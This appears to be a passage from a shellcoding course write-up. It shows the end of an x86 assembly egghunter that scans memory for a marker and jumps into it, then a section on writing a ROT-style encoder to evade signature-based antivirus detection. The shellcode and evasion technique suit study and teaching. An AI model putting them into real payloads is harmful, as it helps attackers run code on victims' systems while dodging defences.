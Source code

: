 ```

        ; compare access() return for errors
        ; fix the page and get to gud gud memory
        ; but only if we got bad memory (f2 = EFAULT) :[
        cmp al, 0xf2
        je fix_page

        ; if not, load our egg into eax
        mov eax, 0x41414141

        ; load the memory to scan into edi
        mov edi, edx

        ; Scan it, jump to egghunter if no match
        scasd
        jnz egghunter

        ; Do that again, just to be sure
        scasd
        jnz egghunter

        ; If we got here, it's valid!
        jmp edi
```

### Task 4: Encoders

For this task, I decided to start with a simple ROT cipher as we're simply trying to avoid signature based detections. In python, that might look like this:

```python
>>> input = 1
>>> rotate = 13
>>> out = input + rotate
>>> print(out)
14
```

That's pretty... expected, haha. Translated to asm, that's still very simple and there's a number of ways to accomplish it depending on your needs. Here's a rather verbose, easily understood version using write():

```
global _start

section .text

_start:

    xor eax, eax
    mul ebx
    push ebx
    mov bl, 0x1
    mov al, 0x04 ; write()

add:

    mov ecx, value
    add byte [ecx], 0x0C
    mov edx, 0x01
    int 0x80

storage:        
    value: db 0x29
```
